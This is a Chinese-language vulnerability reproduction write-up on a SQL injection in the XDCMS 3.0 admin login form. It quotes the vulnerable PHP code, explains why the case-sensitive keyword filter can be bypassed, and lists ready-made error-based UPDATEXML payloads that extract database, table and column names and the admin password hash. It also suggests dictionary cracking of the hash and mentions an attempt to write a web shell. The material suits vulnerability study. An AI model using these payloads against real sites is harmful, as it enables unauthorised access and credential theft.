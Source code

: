 ```yaml
---
title: XDCMS 3.0 后台登录窗sql注入漏洞
id: zhfly3280
---
```


# XDCMS 3.0 后台登录窗sql注入漏洞

## 一、漏洞简介

## 二、漏洞影响

XDCMS 3.0

## 三、复现过程

漏洞链

```
system/modules/xdcms/login.php
public function check(){

```
 $username = safe_html($_POST['username']);
	$password = safe_html($_POST['password']);
	$verifycode = safe_html($_POST['verifycode']);

	if(empty($username)||empty($password)){
		showmsg(C('user_pass_empty'),'-1');
	}

	if($verifycode!=$_SESSION['code']){
		showmsg(C('verifycode_error'),'-1');
	}

	$sql="select * from ".DB_PRE."admin where `username`='$username'";
	if($this-&gt;mysql-&gt;num_rows($sql)==0){
		showmsg(C('user_not_exist'),'-1');
	}

	$rs=$this-&gt;mysql-&gt;get_one($sql);
	$password=password($password,$rs['encrypt']);
	if($password!=$rs['password']){
		showmsg(C('password_error'),'-1');
	}

	if($rs['is_lock']==1){
		showmsg(C('user_lock'),'-1');
	}

	$logins=$rs["logins"]+1;
	$ip=safe_replace(safe_html(getip()));
	$this-&gt;mysql-&gt;db_update("admin","`last_ip`='".$ip."',`last_time`=".datetime().",`logins`=".$logins,"`username`='$username'");

	$_SESSION['admin']=$rs['username'];
	$_SESSION['admin_id']=$rs['id'];
	$_SESSION['groupid']=$rs['groupid'];
	unset($rs);
	showmsg(C("login_success"),"index.php?m=xdcms&amp;c=index");
} 
``` `safe_html()

function safe_html($str){

if(empty($str)){return;}

$str=preg_replace(’/select|insert | update | and | in | on | left | joins | delete |%|=|/*|*|../|./| union | from | where | group | into |load_file

|outfile/’,’’,$str);

return htmlspecialchars($str);

}` 
```

safe_html()使用preg_replace()时候，pattern未添加/i修饰符，导致过滤字符可通过大小写转换或双写进行绕过；

同时，htmlspecialchars()未添加参数，默认仅对双引号进行转义

**payload**

```
#爆库
username=admin%27+OR+UPDATExml(1,concat('~',(database())),0)--+&password=123&verifycode=3bdd&button=
#爆表名
username=admin%27+OR+UPDATExml(1,concat('~',(SELECT+group_concat(table_name)+frOm+information_scheMA.tables+whEre+table_schema+like+'xdcms')),0)--+&password=123&verifycode=3bdd&button=
//updatexml一次显示32位字符，需要偏转
username=admin%27+OR+UPDATExml(1,concat(0x7e,substr((SELECT+group_concat(table_name)+frOm+information_scheMA.tables+whEre+table_schema+like+'xdcms'),30,30)),0)--+&password=123&verifycode=3bdd&button=
#爆表名
username=admin%27+OR+UPDATExml(1,concat(0x7e,substr((SELECT+group_concat(column_name)+frOm+information_scheMA.columns+whEre+table_name+like+'c_admin'),1,32)),0)--+&password=123&verifycode=3bdd&button=
#爆内容
username=admin%27+OR+UPDATExml(1,concat(0x7e,(selEct+password+From+c_admin)),0)--+&password=123&verifycode=3bdd&button= 
```

![image](../img/d811cbbb18eadcd43fb9163e9586ef14.png)

虽然获取密码hash值，但cms并未直接通过MD5获得哈希值，且无法破解该哈希值；

通过SQL注入获取到账户encrypt，再使用密码字典，依次爆破来猜测明文密码；另外可通过数据库写shell，但此时`secure_file_priv`被禁用

```
function password($password, $encrypt='') {
	$pwd = array();
	$pwd['encrypt'] =  $encrypt ? $encrypt : get_random();
	$password_md5=md5(trim($password));
	$nums=strlen($password_md5) - strlen($pwd['encrypt']);//encrypt:lr24vx2
	$pwd['password'] = md5(substr_replace($password_md5,$pwd['encrypt'],$nums));
	return $encrypt ? $pwd['password'] : $pwd;
} 
```